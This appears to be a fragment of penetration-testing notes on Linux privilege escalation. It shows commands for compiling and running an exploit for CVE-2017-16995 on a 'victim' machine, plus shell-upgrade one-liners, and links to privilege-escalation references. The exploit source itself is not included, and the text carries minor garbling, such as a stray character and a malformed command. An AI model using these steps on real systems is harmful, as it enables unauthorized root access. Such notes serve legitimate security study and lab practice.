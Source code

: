 Victim

```bash
# build on victim and verify architecture
gcc cve-2017-16995.c -o cve-2017-16995
file cve-2017-16995
 cve-2017-16995: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically 
./cve-2017-16995
```

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/bash -i
```s

## Links

* Linux Privilege Escalation `https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md`
* Hacktricks `https://book.hacktricks.xyz/linux-hardening/privilege-escalation`
* GTFOBins linux binaries to exploited `https://gtfobins.github.io/`
* Basic Linux EoP `https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/`
